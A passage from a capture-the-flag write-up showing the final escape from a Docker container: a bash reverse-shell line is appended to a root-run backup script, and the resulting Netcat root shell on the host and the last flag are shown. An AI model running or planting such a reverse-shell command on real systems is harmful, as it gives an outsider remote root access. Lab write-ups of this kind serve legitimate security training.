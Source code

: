 That appends a new line onto that backup script, which now looks like this:

```bash
#!/bin/bash
tar cf /root/container/backup/backup.tar /root/container
bash -i >& /dev/tcp/10.6.90.119/9001 0>&1
```

![A few moments later](afewmomentslater.png)

We get a Netcat connection, and it's from the Docker host:

```bash
listening on [any] 9001 ...
connect to [10.6.90.119] from (UNKNOWN) [10.10.67.160] 36038
bash: cannot set terminal process group (3169): Inappropriate ioctl for device
bash: no job control in this shell
root@dogcat:~# 
```

From here, the 4th and final flag is: `cat /root/flag4.txt`.
